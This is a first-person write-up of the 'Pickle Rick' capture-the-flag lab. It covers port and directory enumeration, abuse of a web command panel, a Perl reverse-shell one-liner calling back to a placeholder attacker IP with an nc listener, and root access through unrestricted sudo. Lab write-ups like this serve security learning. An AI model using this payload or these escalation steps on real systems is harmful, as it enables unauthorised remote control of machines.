






# Pickle Rick Writeup by 1nsouciance


> **It's my first write-up, but I will try to make it as much objective as i can! So let's begin!**

## ***Step 1: Enumeration***
### It is a considerably good practice to enumerate target as the first objective, so let's use nmap tool with this command:
```bash
sudo nmap -sS -Pn -p- 10.10.209.97
```
### **Nmap Results:**
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 21:35 BST
Nmap scan report for localhost (10.10.209.97)
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 50.97 seconds
```

### As we can see, http service (website/webpage) is up on this machine, but **let's enumerate directories and files with gobuster first**
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ,php --url "http://10.10.209.97/"
```
### **Gobuster Results:**
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.209.97/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              ,php
[+] Timeout:                 10s
===============================================================
2023/04/21 21:53:37 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 290]
/.                    (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 311] [--> http://10.10.209.97/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

### We found two interesting files such as `login.php` and `robots.txt` inside of the main root folder!

### What's inside of `robots.txt`:


### Probably it's something useful, maybe the password from the login page, but we don't have the login and have to move on and finally check out our enumerated website!


### Well, not so many to find out at the main page, but let's check page source, maybe there's something useful there!


### ***What a luck! There's one note with username!***


### Let's login on `login.php`:


### **Command panel!** It's time for `ls -lh` to come out!
### **Output**:
```bash
total 32K
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4.0K Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1.1K Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1.1K Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1.5K Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2.0K Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

### ***There's our first ingredient... Time for `cat`!***


### **Oh no...** But there are lots of commands to try! For example: `strings`, `ul`, `look`, `less` and many others...
### **Output:**
```
<edited first ingredient>
```

### It's time to move on... our goal now is to escape this command panel and recieve remote shell. `perl` will help us with this task! But let's set up a listener on our attacker machine first:
```bash
sudo nc -lvnp 4242
```
### And our payload for site's command panel:
```perl
perl -e 'use Socket;$i="<attacker-ip>";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **Result:**


### How to `find` second ingredient? Not so hard as it seems!
```bash
$ find / -name "*ingredient*" 2>/dev/null
/home/rick/second ingredients
```

### And `cat` this one!
```bash
$ cat "/home/rick/second ingredients"
<edited second ingredient>
```

### We forgot one important thing: to check who we are in this system, maybe we are ***root*** ?
```bash
$ whoami
www-data
```
### **No.** But maybe we have ***sudo permissions*** ?
```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-209-97.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-209-97.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

### FULL RIGHTS! Let's escalate our privileges :)
```bash
$ sudo /bin/bash
$ whoami
root
```

### **Perfect.** Now let's try to find our third ingredient in the ***root*** folder:
```bash
$ cd /root/
$ ls -lh
total 8.0K
-rw-r--r-- 1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x 3 root root 4.0K Feb 10  2019 snap
$ cat 3rd.txt
<edited third ingredient>
```

## ***Done! Thx for watching and see you later!***

